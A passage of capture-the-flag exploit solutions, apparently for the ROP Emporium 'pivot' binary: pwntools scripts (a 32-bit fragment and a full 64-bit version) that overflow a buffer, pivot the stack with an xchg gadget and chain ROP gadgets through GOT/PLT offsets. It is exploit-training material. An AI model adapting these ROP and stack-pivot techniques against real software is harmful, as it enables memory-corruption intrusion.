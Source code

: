 ```python
p.sendline(stage_two)

p.recvuntil("> ")
# 0x080488c2 : xchg eax, esp ; ret
xchg_eax_esp = 0x080488c2

stage_one = ""
stage_one += "A" * (0x28+4)
stage_one += p32(pop_eax)
stage_one += p32(pivot_address+32)
stage_one += p32(xchg_eax_esp)
p.sendline(stage_one)
p.interactive()
```

## pivot64

```python
import re
from pwn import *

p = process("./pivot")
pivot_address = int(re.search(r"0x.*?\b", p.recvuntil("> ")).group(), 16)

# 0x0000000000400b00 : pop rax ; ret
pop_rax = 0x0000000000400b00
# 0x0000000000400b05 : mov rax, qword ptr [rax] ; ret
mov_rax = 0x0000000000400b05
# 0x0000000000400900 : pop rbp ; ret
pop_rbp = 0x0000000000400900
# 0x0000000000400b09 : add rax, rbp ; ret
add_rax_rbp = 0x0000000000400b09
# 0x000000000040098e : call rax
call_rax = 0x000000000040098e

foothold_got_address = 0x0000000000602048
foothold_plt_address = 0x0000000000400850
rbp_value = 0x0000000000000ABE - 0x0000000000000970

stage_two = ""
stage_two += p64(foothold_plt_address)
stage_two += p64(pop_rax)
stage_two += p64(foothold_got_address)
stage_two += p64(mov_rax)
stage_two += p64(pop_rbp)
stage_two += p64(rbp_value)
stage_two += p64(add_rax_rbp)
stage_two += p64(call_rax)
p.sendline(stage_two)

p.recvuntil("> ")
# 0x0000000000400b02 : xchg rax, rsp ; ret
xchg_rax_rsp = 0x0000000000400b02

stage_one = ""
stage_one += "A" * (0x20+8)
stage_one += p64(pop_rax)
stage_one += p64(pivot_address)
stage_one += p64(xchg_rax_rsp)
p.sendline(stage_one)
p.interactive()
```
